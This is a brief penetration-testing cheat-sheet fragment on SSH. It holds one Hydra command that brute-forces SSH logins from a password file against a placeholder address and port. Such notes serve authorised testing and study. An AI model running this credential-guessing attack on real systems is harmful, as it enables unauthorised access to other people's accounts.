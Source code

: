 # SSH - Secure Shell

## Getting Logins with Hydra

```
sudo hydra -t 16 -l <username> -P <password_file> -vV ssh://<ip_addr>:<port>